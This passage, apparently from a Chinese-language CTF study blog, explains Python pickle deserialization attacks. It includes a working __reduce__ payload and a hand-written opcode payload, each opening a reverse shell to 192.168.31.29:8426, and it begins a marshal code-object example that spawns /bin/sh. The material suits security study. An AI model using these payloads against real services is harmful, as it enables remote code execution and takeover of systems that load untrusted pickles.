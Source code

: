 ![image-20210809011024984](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809011024984.png)

也顺利返回了shell，很容易发现跟上面手写的opcode并无差异，而这个核心就是构造时的`__reduce__`函数的返回值，我们可以利用它来rce，反弹shell之类的。

### 另一个反弹shell的小栗子

```python
import pickle
import os
class A(object):
    def __reduce__(self):
        a = """python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.31.29",8426));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system,(a,))
a=A()
result = pickle.dumps(a)
pickle.loads(result)
```

```python
# 或者最简单的手写opcode 不用特意构造class A()
cos
system
(S'bash -c "bash -i >& /dev/tcp/192.168.31.29/8426 0>&1"'
tR.
```

![image-20210809090941558](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809090941558.png)

参考：[Linux反弹shell（一）文件描述符与重定向](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)  |  [Linux 反弹shell（二）反弹shell的本质](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)

{{% spoiler "栗子1 - [DasCTF 0721] easyweb" %}}
[之前写过了](https://amiaaaz.github.io/2021/08/05/dasctf0721-wp/#easyweb)，在对session的处理时使用了pickle，我们可以构造恶意的session反弹shell；也没有特殊的过滤和限制，payload怎么写都行
{{% /spoiler %}}

### 用Marshal序列化任意代码对象

如果只在`__reduce__`中用`-c`参数执行代码的话，遇到一些自定函数 在格式上就会比较麻烦

前面提到pickle不能序列化代码对象，来个实例

```python
# py2
import pickle
def foo():
    import os
    def fib(n):
        if n<=1:
            return n
        return fib(n-1)+fib(n-2)
    print 'fib(10)=',fib(10)
    os.system('/bin/sh')
pickle.dumps(foo.func_code)
```

